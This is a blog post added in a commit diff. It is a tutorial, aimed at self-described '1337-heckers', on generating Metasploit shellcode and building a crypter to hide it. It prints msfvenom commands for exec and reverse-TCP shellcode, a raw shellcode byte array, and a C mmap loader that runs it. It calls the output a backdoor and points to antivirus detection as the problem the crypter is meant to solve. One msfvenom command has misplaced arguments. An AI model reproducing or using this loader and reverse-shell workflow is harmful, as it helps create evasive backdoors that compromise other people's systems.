

Before and after one commit to calloczero/calloczero.github.io, a Jekyll site: the page built from _posts/2022-09-18-Test-Post.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
added first blogpost

````diff
--- a/_posts/2022-09-18-Test-Post.md
+++ b/_posts/2022-09-18-Test-Post.md
@@ -1,14 +1,101 @@
 ---
 layout: post
-title:  "This is an test"
+title:  "Writing a Custom Shellcoder Encrypter - First Post by Zero++;"
 ---
 
-```go
-package main
-import "fmt"
-func main() {
-	for i := 0; i < 10; i++ {
-	    fmt.Println(i)
+In this blogpost we will write an custom Shellcode Cryptor in go.
+
+## But what exactly is Shellcode?
+Shellcode is a combination of binary instruction that will be executed on cpu.
+Shellcode can be used for everything, to spawn a reverse shell, to execute a program, to obtain a file descriptor or whatever.
+We 1337-heckers use Shellcode because its independent, minimalistic, easy to hide and obfuscate and also perfect to inject into processes.
+Shellcode can be written by Hand which is very difficult and not recommended by me, i would recommend to extract Shellcode from Assembly or any compiled programs.
+
+## Requirements to follow this Blog
+This tutorial is for Linux but the Shellcode encoding works same on any Operating System, only the process of execution is different.
+In this tutorial we will use Metasploit's msfvenom to generate the Shellcode, C and mmap (a Linux systemcall) to make the Shellcode executable.
+Shellcode itself is not Executable, data has to be in a specific file format like ELF (used by Unix and Linux for binaries, shared libraries etc.) or the more famous one PE (Portable Executable the file format used by windows for .exe and .dll files) to be executable. Thats why we will use C to make our Shellcode executable inside our program. I highly recommend to use gcc (the gnu compiler collection) or clang to compile your C Code. The go toolchain is also required.
+
+
+## Generating our first Shellcode
+In this blogpost we will use ```/tmp/blog/``` as workspace.
+We will generate Unencrypted Shellcode in C format (later we will use the raw format).
+The Shellcode we will generate with msfvenom will execute the "ls" program.
+The -b option is for avoiding bytes, in Shellcoding on **x86** we always have to avoid
+NULL-BYTES because it will make our Shellcode stop working (i will not go into depth here).
+With specifying ``` -f c ``` we use the C format, it will output a C-bytearray which is just a normal array and can easily just get copied and pasted.
+
+```bash
+# create and navigate to workspace
+$ sudo su
+$ mkdir /tmp/blog
+$ cd /tmp/blog
+# generate and show Shellcode
+$ msfvenom -p linux/x86/exec CMD="ls" -f -b "\x00" c -o raw.txt
+$ cat raw.txt
+
+```
+# Executing the Shellcode in C
+Now copy the output of ```cat raw.txt``` into the C code down below here and replace your output with the "bytes" array", the has to be renamed to "bytes".
+After its done it should look like this.
+
+```c
+#include <stdio.h>    /* standard input/output */
+#include <string.h>   /* used for memcpy */
+#include <sys/mman.h> /* header for mmap syscall and flags */
+
+unsigned char bytes[] =
+"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73"
+"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00"
+"\x00\x6c\x73\x00\x57\x53\x89\xe1\xcd\x80";
+
+int main() {
+	/* allocate a memory map */
+	void* region = mmap(NULL,
+
+			sizeof(bytes),
+			PROT_WRITE | PROT_EXEC,
+			MAP_ANONYMOUS | MAP_PRIVATE,
+			-1,
+			0);
+	/* check for error */
+	if(region == MAP_FAILED) {
+		perror("mmap");
+		return 1;
 	}
+
+	/* copy shellcode into allocated memory page*/
+	memcpy(region, bytes, sizeof(bytes));
+
+	/* debug message */
+	printf("executing %d bytes shellcode using mmap system call\n", sizeof(bytes));
+
+	/* executing the shellcode via function pointer */
+	((int(*)())region)();
+
+	/* deallocate the memory */
+	munmap(region, sizeof(bytes));
+	return 0;
 }
 ```
+
+## Notes and Compiling the Program
+This blog is not a C course you already should be familiar with the C language.
+I will compile the program with the following command
+```gcc -m32 file.c -o runme && ./runme```
+The -m32 option stands basically for 32 bit make sure you have gcc-multilib installed to be able to use the 32-bit headers. After Compiling and
+executing the program we should get following output:
+```bash
+executing 39 bytes shellcode using mmap system call
+file.c	raw.txt  runme
+```
+as we see the c code and the Shellcode execute "ls", thats why it listed the files down below there.
+
+## Generating Reverse-Shell-Shellcode with msfvenom
+Now we will generate Shellcode which will spawn a Reverse-Shell.
+To run the Shellcode you have todo the same as before, just copy the output, paste, rename the array, compile and run.
+```
+msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=8089 -b "\x00" -f c -o raw.txt
+```
+For some reason msfvenom used shikata_ga_nai, but i didnt specify to use it which was really suprising for me. If we now upload the backdoor to VirusTotal it will be detected.
+![Virus Total Screenshot here](.images/vtotal01.png)
````
Also changed, not shown: _posts/images/vtotal01.png (added), 15 other files.
